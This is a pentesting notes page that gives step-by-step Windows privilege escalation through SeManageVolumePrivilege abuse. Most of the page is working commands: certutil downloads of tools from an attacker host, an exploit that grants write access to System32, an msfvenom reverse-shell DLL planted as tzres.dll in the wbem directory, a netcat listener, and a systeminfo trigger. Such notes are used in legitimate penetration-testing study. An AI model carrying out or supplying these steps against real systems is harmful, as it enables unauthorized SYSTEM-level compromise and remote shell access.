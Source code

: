 ```yaml
---
title: SeManageVolumePrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeManageVolumePrivilege
---
```

# SeManageVolumePrivilege


Original repo at https://github.com/xct/SeManageVolumeAbuse

Forked to: https://github.com/amandaguglieri/SeManageVolumeAbuse.git


Source for explotation: https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeManageVolumePrivilege/#exploit-with-wertrigger


### **Step 1: Check current user privileges**

1. Verify if the current user has `SeManageVolumePrivilege`:  

```bash
whoami /priv
```

### **Step 2: Enable SeManageVolumePrivilege (optional)**

1. Download the `EnableAllTokenPrivs.ps1` script:  

```
wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
```
        
2. Transfer the script to the target machine:  
```
certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1
```

3. Import the module to enable the privilege

```
Import-Module .\EnableAllTokenPrivs.ps1`
```
    
4. Verify privileges again to confirm that `SeManageVolumePrivilege` is enabled:  
```
whoami /priv
```


### **Step 3:  DLL hijacking with Metasploit**

1. Download and transfer `SeManageVolumeExploit.exe` to the target:  

```
wget https://github.com/amandaguglieri/SeManageVolumeAbuse/releases/download/1.0/SeManageVolumeAbuse.exe
```

2. Transfer it using `certutil`:  

```
certutil -urlcache -f http://[IP-ADDRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe
```

3. Execute the exploit to gain write privileges to `C:\Windows\System32\`:

```
.\SeManageVolumeExploit.exe
```

4. Create a malicious DLL payload with `msfvenom`:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f dll -o tzres.dll
```

5. Place the malicious DLL in the WBEM directory:  

```
copy tzres.dll C:\Windows\System32\wbem\
```

6. Set up a Netcat listener on the attacking machine:

```
rlwrap -cAr nc -lnvp 1337`
```    

7. Activate the payload by running:

```
systeminfo
```




